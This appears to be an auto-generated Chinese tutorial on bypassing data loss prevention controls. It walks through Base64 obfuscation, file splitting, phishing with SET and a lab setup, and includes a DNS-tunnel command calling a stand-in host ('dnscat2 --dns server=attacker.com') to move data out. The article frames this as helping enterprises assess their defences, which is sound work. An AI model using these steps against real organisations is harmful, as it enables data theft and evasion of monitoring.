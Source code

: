 # 数据防泄露策略的攻击技术

## 1. 概述

数据防泄露（Data Loss Prevention, DLP）策略是企业保护敏感数据不被未经授权访问或泄露的重要手段。然而，攻击者常常通过多种技术手段绕过DLP策略，窃取或泄露数据。本文将详细探讨DLP策略的常见攻击手法、底层实现机制、变种和高级利用技巧，并提供详细的攻击步骤和实验环境搭建指南。

## 2. 技术原理解析

### 2.1 DLP策略的底层实现机制

DLP策略通常通过以下几种方式实现：

- **内容识别**：通过正则表达式、关键字匹配、数据指纹等技术识别敏感数据。
- **上下文分析**：分析数据的上下文信息，如发送者、接收者、时间、地点等。
- **行为监控**：监控用户的行为，如文件复制、打印、上传等。
- **加密与访问控制**：通过加密和访问控制机制限制数据的访问权限。

### 2.2 攻击手法的底层机制

攻击者绕过DLP策略的常见手法包括：

- **数据混淆**：通过编码、加密、压缩等手段混淆数据，使其无法被DLP系统识别。
- **分片传输**：将数据分片传输，绕过DLP系统的检测。
- **隐蔽通道**：利用合法通信通道（如HTTP、DNS）传输敏感数据。
- **社会工程学**：通过欺骗手段获取访问权限或诱导用户泄露数据。

## 3. 常见攻击手法及变种

### 3.1 数据混淆

#### 3.1.1 Base64编码

**技术原理**：Base64编码将二进制数据转换为ASCII字符，常用于在文本协议中传输二进制数据。DLP系统通常无法识别Base64编码后的敏感数据。

**攻击步骤**：
1. 将敏感数据转换为Base64编码。
   ```bash
   echo "SensitiveData" | base64
   ```
2. 将编码后的数据通过邮件、聊天工具等传输。

**变种**：使用URL编码、Hex编码等其他编码方式。

### 3.2 分片传输

#### 3.2.1 文件分片

**技术原理**：将大文件分片传输，绕过DLP系统的文件大小限制。

**攻击步骤**：
1. 使用`split`命令将文件分片。
   ```bash
   split -b 1M largefile.txt part_
   ```
2. 将分片文件通过不同渠道传输。
3. 在接收端使用`cat`命令合并文件。
   ```bash
   cat part_* > largefile.txt
   ```

**变种**：使用压缩包分卷、网络分片传输等。

### 3.3 隐蔽通道

#### 3.3.1 DNS隧道

**技术原理**：利用DNS查询和响应传输数据，绕过DLP系统的网络流量监控。

**攻击步骤**：
1. 在攻击者控制的DNS服务器上配置隧道服务。
2. 使用工具如`dnscat2`建立DNS隧道。
   ```bash
   dnscat2 --dns server=attacker.com
   ```
3. 通过DNS隧道传输敏感数据。

**变种**：使用HTTP隧道、ICMP隧道等。

### 3.4 社会工程学

#### 3.4.1 钓鱼攻击

**技术原理**：通过伪造的邮件、网站等诱导用户泄露敏感数据。

**攻击步骤**：
1. 创建伪造的登录页面。
2. 发送钓鱼邮件，诱导用户点击链接并输入敏感信息。
3. 收集用户输入的敏感数据。

**变种**：使用电话诈骗、假冒身份等手段。

## 4. 高级利用技巧

### 4.1 多阶段攻击

**技术原理**：结合多种攻击手法，分阶段绕过DLP策略。

**攻击步骤**：
1. 使用社会工程学获取初始访问权限。
2. 通过数据混淆和分片传输将敏感数据泄露。
3. 使用隐蔽通道进行数据传输，避免被DLP系统检测。

### 4.2 零日漏洞利用

**技术原理**：利用DLP系统或相关软件的未知漏洞，绕过安全防护。

**攻击步骤**：
1. 发现DLP系统或相关软件的零日漏洞。
2. 开发利用代码，绕过DLP策略。
3. 执行攻击，窃取或泄露敏感数据。

## 5. 实验环境搭建指南

### 5.1 实验环境需求

- **操作系统**：Linux（如Kali Linux）、Windows
- **工具**：Base64编码工具、`split`命令、`dnscat2`、钓鱼工具（如SET）
- **网络环境**：可访问互联网，配置DNS服务器

### 5.2 实验步骤

#### 5.2.1 Base64编码实验

1. 在Linux终端中执行以下命令，将敏感数据编码为Base64。
   ```bash
   echo "SensitiveData" | base64
   ```
2. 将编码后的数据通过邮件或聊天工具发送。
3. 在接收端解码数据。
   ```bash
   echo "U2Vuc2l0aXZlRGF0YQo=" | base64 --decode
   ```

#### 5.2.2 文件分片实验

1. 使用`split`命令将大文件分片。
   ```bash
   split -b 1M largefile.txt part_
   ```
2. 将分片文件通过不同渠道传输。
3. 在接收端使用`cat`命令合并文件。
   ```bash
   cat part_* > largefile.txt
   ```

#### 5.2.3 DNS隧道实验

1. 在攻击者控制的DNS服务器上配置隧道服务。
2. 使用`dnscat2`建立DNS隧道。
   ```bash
   dnscat2 --dns server=attacker.com
   ```
3. 通过DNS隧道传输敏感数据。

#### 5.2.4 钓鱼攻击实验

1. 使用SET工具创建伪造的登录页面。
   ```bash
   setoolkit
   ```
2. 发送钓鱼邮件，诱导用户点击链接并输入敏感信息。
3. 收集用户输入的敏感数据。

## 6. 总结

本文详细介绍了数据防泄露策略的常见攻击手法、底层实现机制、变种和高级利用技巧，并提供了详细的攻击步骤和实验环境搭建指南。通过理解和掌握这些攻击技术，企业可以更好地评估和加强其DLP策略，防止敏感数据泄露。

---

*文档生成时间: 2025-03-17 09:32:11*
